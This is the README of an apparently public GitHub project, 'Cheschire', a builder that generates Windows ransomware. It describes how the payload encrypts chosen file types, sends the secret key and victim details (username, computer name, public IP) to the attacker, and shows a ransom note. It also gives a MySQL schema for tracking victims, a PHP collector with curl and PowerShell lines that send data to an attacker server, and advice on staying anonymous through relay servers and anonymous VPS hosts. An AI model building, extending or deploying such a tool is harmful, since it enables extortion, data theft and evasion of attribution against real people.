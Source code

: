 # Cheschire

[![Version](https://img.shields.io/badge/Version-1.0-blue.svg?style=for-the-badge)]()
[![Language](https://img.shields.io/badge/Bash-4.2%2B-brightgreen.svg?style=for-the-badge)]()
[![Available](https://img.shields.io/badge/Available-Debian-orange.svg?style=for-the-badge)]()
[![Download](https://img.shields.io/badge/Size-260K-brightgreen.svg?style=for-the-badge)]()
[![License](https://img.shields.io/badge/License-GPL%20v3%2B-red.svg?style=for-the-badge)](https://github.com/hacknonym/Cheschire/blob/master/LICENSE)

### Author: github.com/hacknonym

## A Windows Ransomware

![Banner](https://user-images.githubusercontent.com/55319869/87875498-d65d2d80-c9d1-11ea-98af-b7b989868d0a.PNG)

**Cheschire** generate executable ranwomware for Windows target. #cheschire #ransomware
# Using the AES encryption algorithm powershell module from https://github.com/thelinuxchoice/hidden-cry.git

## Legal disclaimer

Usage of **Cheschire** for attacking targets without prior mutual consent is illegal.
Do not use in military or secret service organizations, or for illegal purposes.
It's the end user's responsibility to obey all applicable local, state and federal laws. 
Developer assume no liability and is not responsible for any misuse or damage caused by this program.

## Features !
 - Specify location where to start encryption *e.g. ($home)*
 - Specify a specific extension *e.g. (.cheschire)*
 - Specify a ransom amount
 - Specify a Bitcoin address
 - Specify a decoy program *e.g. (avast antivirus)*
 - Specify a specific wallpaper
 - Specify speficic extensions *e.g. (.jpg, .docx)*
 - Specify a icon for the main program

## Installation and Usage
Necessary to have root rights
```bash
git clone https://github.com/hacknonym/Cheschire.git
cd Cheschire
sudo chmod +x displaydb.sh
sudo chmod +x listener.sh
sudo chmod +x cheschire.sh
sudo ./cheschire.sh
```
To compile the generated files, use [**Bat_to_Exe_Convertor**.](https://bat-to-exe-converter-x64.en.softonic.com/) 

## Operating steps
**Ransomware (.exe) steps**
- Move to the directory ``` %APPDATA% ```
- Launch of the integrated decoy program, *e.g. avast.exe*
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\Cipher ```
- Creation of the file __Cipher.psm1__
- Random generation of an identifier of the form {xxx-xxx-xxx}
- Creation of the file __cry.ps1__
- Launch of the file __cry.ps1__
  * Random generation of a secret key, *e.g. o6nklwri0s4d39hc7gxmzv5qlgy1xc4eu3a2dr7h8i0=*
  * Encoding information in Base64
  * Sending the encoded information (secret key, ID, Date, Time, Username, Computer Name, Public IP) to the hacker via [RequestBin](https://requestbin.io/)
  * Import module __Cipher.psm1__ and start encryption on the specified extensions
- Move to the directory ``` %USERPROFILE%\Desktop ```
- Creation of the file __readme.html__
- Launch of the file __readme.html__
- Copy the file ``` %APPDATA%\decrypt0r.exe ``` to ``` %USERPROFILE%\Desktop\ ```
- Changing the wallpaper with ``` %APPDATA%\wallpaper.jpg ```
- Deleting files embedded in ``` %APPDATA% ``` (avast.exe, wallpaper.jpg, decrypt0r.exe)

**decrypt0r.exe steps**
- Creation of the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Move to the directory ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ```
- Creation of the file __decry.psm1__
- Creation of the file __decryGUI.ps1__
- Launch of the file __decryGUI.ps1__
  * Opening a graphic window (GUI) to enter the secret key
  * If the field is not empty then we try to decrypt the files and if the files have been decrypted then delete the files (decry.psm1, decryGUI.ps1) in ``` %USERPROFILE%\Documents\WindowsPowerShell\Modules\decry ``` otherwise if the field is empty or the key incorrect, nothing happens (closing the window)
  
## Using MySQL DataBase
Creating a new user
```bash
mysql> CREATE USER 'newuser'@'localhost' IDENTIFIED BY 'password';
mysql> GRANT ALL PRIVILEGES ON Cheschire.* TO 'newuser'@'localhost';
```
Once the new user has been created, specify credentials in the **ident.txt** file
<br />**Default credentials**
```text
DBNAME : Cheschire
USERNAME : root
PASSWORD : 
```

DATABASE NAME: **Cheschire**
| TABLES |
|  :------:  |
|  Victim  |
|  Country |

**Victim** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- |--- |
| Id_Victim | int(11) | NO | PRI | NULL | auto_increment |
| Date_Compromise | datetime | YES | --- | NULL | --- |
| IP_Address | varchar(15) | YES | --- | NULL | --- |
| ISP | text | YES | --- | NULL | --- |
| Country | varchar(2) | YES | MUL | NULL | --- |
| Region | text | YES | --- | NULL | --- |
| City | text | YES | --- | NULL | --- |
| Timezone | varchar(100) | YES | --- | NULL | --- |
| User_Name | varchar(50) | YES | --- | NULL | --- |
| Computer_Name | varchar(50) | YES | --- | NULL | --- |
| Ident | varchar(17) | YES | --- | NULL | --- |
| Secret_Key |  varchar(45) | YES | --- | NULL | --- |

**Country** TABLE
| Field | Type | Null | Key | Default | Extra |
| --- | --- | --- | --- |--- | --- |
| Id_Country | varchar(2) | NO | PRI | NULL | --- |
| Name | varchar(60) | NO | --- | NULL | --- |

## Why use RequestBin to send information
It is quite possible to send the information through an HTTP request directly to our server without going through a service provider
**index.php**
```php
<?php
if(isset($_GET["query"])){
    $file = fopen("output.txt", "a+");
    fwrite($file, $_GET['query']."\n");
}
?>
```
Launch the server
```bash
$> php -S 0.0.0.0:8080
```
Send a request from Windows (Command Prompt & PowerShell)
```PowerShell
cmd> curl http://<IP_SERVER>:8080/?query=Hello World

PS> (New-Object System.Net.WebClient).DownloadString("http://<IP_SERVER>:8080/?query=" + "Hello World")
```
However for the victim to be able to send information, our server must be accessible
by Internet (if not on the same local network). But by making accessible
the server from the Internet, we expose ourselves to risks concerning our identity.
Indeed, if the victim analyzes his outgoing connection logs, the public IP address of the
remote server (our HTTP server) will be displayed in plain text while sending information.

## Why use Bat_to_Exe_Convertor to compile
For all this to work, we need to have 3 files
- the decryption program (.exe)
- a wallpaper (.jpg)
- a decoy program (.exe)

It is impossible to integrate these three files inside an executable (e.g. in a
C program), it would then be necessary to download them from the Internet
on the target machine (if not on the same local network), but it would be necessary
to take adequate measures regarding the anonymity of the server from which these
files would be downloaded, in this case it is therefore imperative to use
- Relay servers
- Anonymous VPS
- External service providers (e.g. https://www.mediafire.com/, http://ge.tt/, etc.)

In addition, this does not exclude a potential blockage of certain
ports, services, IP addresses due to a firewall, which would prevent us from
download our files.

## Tools Overview
![Create Ransomware](https://user-images.githubusercontent.com/55319869/87853921-5ae67800-c90e-11ea-9c51-f1d5bacc8fdf.png)
![Check & Compile info](https://user-images.githubusercontent.com/55319869/87853923-5c17a500-c90e-11ea-8fb6-c4881e41f270.png)
![DATABASE interactions](https://user-images.githubusercontent.com/55319869/87853925-5d48d200-c90e-11ea-9712-4a5dbb8defe6.png)
![List victims from the DATABASE](https://user-images.githubusercontent.com/55319869/87853926-5e79ff00-c90e-11ea-80a9-730a1275804e.png)
![Number of victims](https://user-images.githubusercontent.com/55319869/87853928-5fab2c00-c90e-11ea-81ec-f220e7daf716.png)
![Instructions](https://user-images.githubusercontent.com/55319869/87875372-2091df00-c9d1-11ea-9e25-59b2647b3bb7.png)
![Decryptor](https://user-images.githubusercontent.com/55319869/89562030-a8714900-d819-11ea-8df5-2d9a3e31d2d9.PNG)

## License
GNU General Public License v3.0 for Cheschire
AUTHOR: @hacknonym

